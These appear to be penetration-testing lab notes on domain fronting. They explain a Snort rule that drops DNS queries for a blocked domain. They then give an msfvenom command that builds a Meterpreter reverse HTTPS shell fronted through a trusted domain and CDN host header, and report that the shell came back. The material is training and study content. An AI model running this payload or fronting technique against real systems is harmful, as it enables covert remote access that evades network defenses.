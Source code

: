 ## Domain Fronting In Lab
Our goal will be to use the trusted good.com domain to reach the otherwise blocked bad.com domain. 
Our CDN hostname will be cdn123.offseccdn.com, which will point to the IP address of bad.com.

good.com is considered safe for client access. The bad.com domain is blocked by Snort, which will drop all DNS queries using this snort rule:
```snort
drop udp any any -> any 53 (msg:"VIRUS DNS query for malicious bad.com domain"; content:"|01|"; offset:2; depth:1; content:"|00 01 00 00 00 00 00|"; distance:1; within:7; content:"|03|bad|03|com"; fast_pattern; classtype:bad-unknown; sid:2013482; rev:4;)
```

The rule has number of parameters:
1. The "drop udp any any -> any 53" section specifies that UDP traffic coming from any source IP, and any port, destined to any IP on port 53 (which is typically DNS) will be dropped if a rule match is detected.
2. The _msg_ option contains the message that Snort will return when a rule match is detected.
3.  "content:"|03|bad|03|com"" indicates the domain name, which is bad.com. The "03" value specifies the length of the string that follows. This value is set for each part of the FQDN.


To bypass the domain filters, we start by creating a shell with host header to our malicious CDN.
```sh
msfvenom -p windows/x64/meterpreter_reverse_https HttpHostHeader=cdn123.offseccdn.com LHOST=good.com LPORT=443 -f exe > https-df.exe
```

Transferring and running the payload, does the following:
1. The client did, in fact, properly set the SNI field to request the certificate from good.com.
2. The Ubuntu NGINX server replied with the certificate of good.com.
3. The rest of the traffic is encrypted but since we received our Meterpreter shell, we can confirm that it works properly.


## Exercise
In the exercise, even though our executable visits good.com, we can see in the host header in wireshark, that the host is set to exercise.offseccdn.com
![](../../../../../Screenshots/hoc-dc.png)